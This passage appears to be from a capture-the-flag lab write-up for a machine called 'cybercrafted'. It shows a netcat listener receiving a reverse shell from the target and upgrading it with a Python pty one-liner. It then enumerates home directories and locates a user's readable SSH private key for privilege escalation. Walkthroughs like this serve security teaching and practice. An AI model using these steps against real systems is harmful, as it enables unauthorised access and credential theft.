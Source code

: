 ```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.145.62] 44792
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@cybercrafted:/var/www/admin$ ls -la
ls -la
total 28
drwxr-xr-x 3 www-data www-data 4096 Sep 12  2021 .
drwxr-xr-x 6 root     root     4096 Jun 26  2021 ..
drwxr-xr-x 2 www-data www-data 4096 Jun 20  2021 assets
-rwxr-xr-x 1 www-data www-data  195 Jun 21  2021 dbConn.php
-rwxr-xr-x 1 www-data www-data 1035 Jun 21  2021 index.php
-rwxr-xr-x 1 www-data www-data 1348 Jun 21  2021 login.php
-rwxr-xr-x 1 www-data www-data 1156 Jun 21  2021 panel.php
```

## Horizontal Privilege Escalation

### User 1

I navigate to the `/home/` directory, enumerate the users’ workstations and figure out the **.ssh** directory contains the **id_rsa** key used for the **ssh** conection:

```
www-data@cybercrafted:/home/[REDACTED]$ cd /home/
www-data@cybercrafted:/home/[REDACTED]$ ls -l
total 8
drwxr-x--- 4 cybercrafted        cybercrafted        4096 Sep 12  2021 cybercrafted
drwxr-xr-x 5 [REDACTED] [REDACTED] 4096 Oct 15  2021 [REDACTED]
www-data@cybercrafted:/home/[REDACTED]$ ls -la
ls -la
total 32
drwxr-xr-x 5 [REDACTED] [REDACTED] 4096 Oct 15  2021 .
drwxr-xr-x 4 root                root                4096 Jun 27  2021 ..
lrwxrwxrwx 1 root                root                   9 Sep 12  2021 .bash_history -> /dev/null
-rw-r--r-- 1 [REDACTED] [REDACTED]  220 Jun 27  2021 .bash_logout
-rw-r--r-- 1 [REDACTED] [REDACTED] 3771 Jun 27  2021 .bashrc
drwx------ 2 [REDACTED] [REDACTED] 4096 Jun 27  2021 .cache
drwx------ 3 [REDACTED] [REDACTED] 4096 Jun 27  2021 .gnupg
-rw-rw-r-- 1 [REDACTED] [REDACTED]    0 Jun 27  2021 .hushlogin
-rw-r--r-- 1 [REDACTED] [REDACTED]  807 Jun 27  2021 .profile
drwxrwxr-x 2 [REDACTED] [REDACTED] 4096 Jun 27  2021 .ssh
lrwxrwxrwx 1 root                root                   9 Oct 15  2021 .viminfo -> /dev/null
www-data@cybercrafted:/home/[REDACTED]$ cd .ssh
cd .ssh
www-data@cybercrafted:/home/[REDACTED]/.ssh$ ls -l
ls -l
total 8
-rw-r--r-- 1 [REDACTED] [REDACTED]  414 Jun 27  2021 authorized_keys
-rw-r--r-- 1 [REDACTED] [REDACTED] 1766 Jun 27  2021 id_rsa
```
